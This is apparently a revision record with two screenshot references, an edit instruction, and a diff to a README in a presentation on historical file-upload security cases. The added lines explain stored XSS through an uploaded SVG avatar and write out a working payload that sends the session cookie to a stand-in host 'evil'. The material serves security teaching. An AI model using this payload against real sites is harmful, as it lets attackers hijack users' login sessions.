

Keep the SVG path inside card 2 and show cookie theft

Changed region(s): [[0.0312, 0.6722, 0.3125, 0.7944], [0.8125, 0.5194, 0.9375, 0.6111], [0.4062, 0.7639, 0.5938, 0.7944]]

diff --git a/FileUpload/presentation/historical-cases/README.md b/FileUpload/presentation/historical-cases/README.md
@@ -99,7 +99,7 @@ Each case has a PNG in [`illustrations/`](illustrations/). Case **#1** uses **tw
 
 **Plain language:** On a profile, the bio stays ordinary text. The user only attaches an avatar. That file is an SVG. When someone opens the profile, the script inside the avatar runs and can steal the login session.
 
-**Technical:** Upload `image/svg+xml` with `onload` / `<script>` → served inline or at a direct URL on the same origin → stored XSS (`<img>` often does **not** run the script).
+**Technical:** The attached file is `image/svg+xml`. Its body is `<svg onload="new Image().src='//evil/?c='+document.cookie">`. The server stores `/uploads/avatar.svg` and serves it on the same origin, so opening the profile sends the session cookie. An `<img>` tag often does **not** run that script.
 
 ---
 
